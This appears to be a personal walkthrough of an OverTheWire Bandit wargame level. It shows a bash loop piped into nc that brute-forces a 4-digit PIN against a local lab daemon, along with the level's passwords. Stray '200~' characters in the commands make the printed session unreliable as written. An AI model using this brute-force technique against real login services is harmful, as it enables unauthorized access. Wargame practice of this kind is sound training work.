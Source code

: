 # Retos Bandit # 25
# Level 24 -> 25

# Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

# Datos de acceso
sh bandit24@**bandit.labs.overthewire.org** -p2220

user: bandit24
pass: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

# Solucion 
```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
Timeout. Exiting.
^C
bandit24@bandit:~$ echo {0000..0005}
0000 0001 0002 0003 0004 0005
bandit24@bandit:~$ for i int(0000..0005); do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done
-bash: syntax error near unexpected token `int'
bandit24@bandit:~$ for i in (0000..0005); do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done
-bash: syntax error near unexpected token `('
bandit24@bandit:~$ for i in {0000..0005}; do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0000
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0001
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0002
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0003
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0004
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0005
bandit24@bandit:~$ for i in {0000..0005}; do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
^C
bandit24@bandit:~$ for i in {0000..0005}; do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done | nc localhost 30002 | grep -v Wrong!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Timeout. Exiting.
bandit24@bandit:~$ for i in {0000..9999}; do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done | nc localhost 30002 | grep -v Wrong!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.

p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```


# Notas adicionales


# Referencias 